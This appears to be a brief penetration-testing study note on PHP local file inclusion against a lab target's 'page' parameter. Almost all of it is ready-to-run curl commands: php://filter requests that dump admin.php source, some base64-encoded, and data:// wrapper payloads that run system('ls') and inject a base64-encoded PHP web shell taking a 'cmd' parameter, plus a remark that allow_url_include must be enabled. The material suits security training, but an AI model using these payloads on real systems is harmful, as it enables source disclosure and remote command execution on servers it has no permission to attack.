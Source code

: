 php://filter

```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```

```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

php://data

```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```

```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

- data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled.